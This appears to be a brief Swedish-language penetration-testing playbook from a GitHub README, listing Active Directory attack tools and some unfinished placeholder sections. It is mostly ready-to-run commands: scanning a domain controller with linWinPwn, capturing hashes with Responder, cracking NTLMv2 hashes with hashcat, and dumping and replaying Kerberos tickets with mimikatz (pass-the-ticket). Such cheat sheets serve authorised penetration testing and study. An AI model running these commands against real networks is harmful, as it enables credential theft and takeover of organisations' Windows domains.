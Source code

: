 # Gunnajs-Playbook
En svensk penetrationsvägvisare

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domän_Kontrollant_IP> -u <AD_konto> -p <AD_lösen>
```

## Zero Logon
* in the making 
## Responder
### Veva igång responder
```bash
responder -I eth0 -v
```
### Cracka NTLMv2 hashar
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <lösenlista.txt> -o cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
## SMB VEV
* in the making 
## Nmap
* in the making 
